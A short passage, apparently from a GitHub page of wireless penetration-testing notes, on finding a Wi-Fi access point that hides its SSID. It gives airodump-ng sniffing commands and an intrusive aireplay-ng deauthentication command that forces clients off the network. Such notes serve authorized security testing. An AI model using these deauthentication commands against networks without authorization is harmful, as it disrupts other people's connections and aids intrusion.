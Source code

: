 #### 3.1. Discover hidden AP with disabled SSID broadcast

1) enable monitoring mode and sniff WLAN traffic
```
# iwconfig wlan0 mode monitor
# airodump-ng wlan0 # check available networks (BSSID, channel)
```

2.a) stealthy: wait for client to (re)connect as SSID will be sent as probe request in plain text


2.b) intrusive: manually deauthenticate a connected client and wait for short re-connect
```
# airodump-ng wlan0 --channel <CH> --bssid <BSSID> # look for SSID
# aireplay-ng wlan0 -0 1 -a <BSSID> -c <STATION> -D
# aireplay-ng wlan0 -0 1 -a <BSSID> -D
```

